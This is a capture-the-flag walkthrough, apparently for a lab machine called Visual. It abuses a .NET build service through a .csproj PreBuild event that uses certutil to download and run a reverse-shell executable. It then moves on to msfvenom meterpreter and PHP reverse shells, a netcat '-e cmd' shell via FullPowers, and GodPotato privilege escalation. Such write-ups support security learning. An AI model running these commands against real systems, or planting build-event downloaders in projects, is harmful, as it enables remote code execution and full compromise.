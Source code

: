 #Enumeration

Nmap scan show open port on 80 which reveals a website. Check nmap-scan.html

# Foothold

The Website offers a service to build .net repos. We can exploit this by using some BuildEvents and getting a shell.

## Creating a Repo(must have a .sln file for .net)

dotnet new sln -o Visual
cd Visual
dotnet new console -o Visual.ConsoleApp --framework net6.0
dotnet sln Visual.sln add Visual.ConsoleApp/Visual.ConsoleApp.csproj

HelloWorld.cs
'''
// Hello World! program
namespace HelloWorld
{
    class Hello {         
        static void Main(string[] args)
        {
            System.Console.WriteLine("Hello World!");
        }
    }
}
'''

Add this line to Visual.ConsoleApp.csproj and of course use your IP/PORT of the webserver we are setting up next
'''
<Target Name="PreBuild" BeforeTargets="PreBuildEvent">
  <Exec Command="certutil -urlcache -f http://IP:PORT/shell.exe %temp%/shell.exe" />
</Target>

<Target Name="PostBuild" AfterTargets="PostBuildEvent">
  <Exec Command="start %temp%/shell.exe" />
</Target>
'''

## Creating shell.exe 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > s.exe

## Staring reverse shell
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lport PORT //used at creating shell
set lport IP
run -j

## Staring Webserver for shell-download
python3 -m http.server PORT

## Start Gitea
sudo podman pull docker.io/gitea/gitea
mkdir data
sudo podman run --rm -it -v ./data:/data -p 3000:3000 gitea/gitea

visit localhost:3000 and do the initial process. Then add a user and upload the repository we have created.

## Getting shell
enter the site to your repo on the website:
http://IP:3000/username/Visual

On the python webserver you can watch how the shell.exe get downloaded and afterwards a session in msfconsole started. Another method is to use a payload which started a connection via powershell/cmd.

# Privilege Escalation
This shell was closed after one command on msfconsole so I used nc.

## Getting another shell
We are allowed to create file in C:\xampp\htdocs so let use this to get shell

### Creating & Upload Payload
msfvenom -p php/reverse_tcp LHOST=IP LPORT=PORT -f raw > phpraw.php

upload it via our first shell:
cerutil -urlcache -f http://IP:PORT/phpraw.php phpraw.php

### Starting NC listener
nc -nlvp PORT 


### Trigger Shell
Start the shell by visiting http://10.10.11.234/phpraw.php

## Extend Privileges using FullPowers
I need to do another workaround here by uploading nc64.exe and creating another shell.

Upload FullPowers from this repo: https://github.com/itm4n/FullPowers

Upload nc64.exe available at this repo: https://github.com/int0x33/nc.exe/

### Start nc listener
nc -nlvp PORT

### Execute FullPower to gain another shell with more privileges
FullPowers -c "C:\xampp\htdocs\nc64.exe IP PORT -e cmd" -z

With the new shell you should have 7 Privileges when you execute whoami /priv instead of 3.

## Getting Root using GodPotato
Download and upload GodPotato-NET4.exe from this url https://github.com/BeichenDream/GodPotato/releases

### Creating shell and upload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shellroot.exe

Upload it to the server.

### Start Listener

start the listener in msfconsole like at the beginning but using another port this time.

set payload windows/x64/meterpreter/reverse_tcp
set lport PORT //used at creating shell one step before


### Start shell using GodPotato

GodPotato-NET4.exe -cmd "C:\xampp\htdocs\uploads\shellroot.exe"




